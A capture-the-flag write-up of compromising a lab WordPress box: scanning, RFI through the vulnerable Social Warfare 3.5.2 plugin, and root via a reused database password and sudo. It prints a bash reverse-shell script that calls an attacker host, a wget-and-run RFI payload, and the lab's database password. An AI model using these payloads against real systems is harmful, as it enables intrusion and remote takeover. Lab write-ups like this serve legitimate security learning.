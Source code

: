 # wpwn

netdiscover found this running on

```
192.168.1.178
```

a port scan revealed ports 22 and 80 were open.

port 80 is hosting wordpress in `/wordpress/`

we ran wpscan, which found a vulnerable plugin: `Social Warfare 3.5.2`

By reading EDB-46794 we found an endpoint that has potential for RFI.

We are able to get a shell by creating `shell.sh` with the following content:

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.1.109/8080 0>&1

```

we then started a listener, and  hosted this `payload` for RFI

```
<pre>system('wget http://192.168.1.109:80/shell.sh && /bin/bash shell.sh')</pre>
```

this gives us shell as `www-data`

linpeas findings

database

```
wordpress_db
```

db user

```
wp_user
```

db password

```
R3&]vzhHmMn9,:-5
```

We were able to find the admin hash in the `wp_users` table on this db.


We are able to login as `takis` using the DB password.

```
ssh takis@192.168.1.178
```

```
R3&]vzhHmMn9,:-5
```

takis is able to run any command with SUDO.

![[Pasted image 20220711013822.png]]

get root with
```
sudo su
```

we looked at a walkthrough to find the root flag:

```
find / root 2>/dev/null | grep USB
```

leads us to `/usr/games/usb/root`

## Root flag

![[Pasted image 20220711014055.png]]